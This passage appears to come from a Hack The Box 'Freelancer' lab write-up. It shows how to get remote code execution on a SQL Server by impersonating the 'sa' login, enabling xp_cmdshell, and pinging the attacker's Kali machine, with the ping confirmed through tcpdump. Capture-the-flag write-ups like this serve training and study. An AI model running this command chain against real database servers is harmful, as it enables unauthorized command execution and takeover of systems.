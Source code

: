 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-24.png)

### SQL RCE

Spending some time on enumeration, we discovered RCE vulnerability on this SQL terminal.

Using the command below, we can impersonate **sysadmin** and use **xp_cmdshell** to execute commands:

```sql
EXECUTE AS LOGIN = 'sa';

EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

EXEC master..xp_cmdshell 'ping 10.10.14.36';

SELECT IS_SRVROLEMEMBER('sysadmin');
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-25.png)

The command above send **ICMP** packets to our Kali machine and we can verify this through **tcpdump**:

`sudo tcpdump -i tun0 icmp`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-26.png)
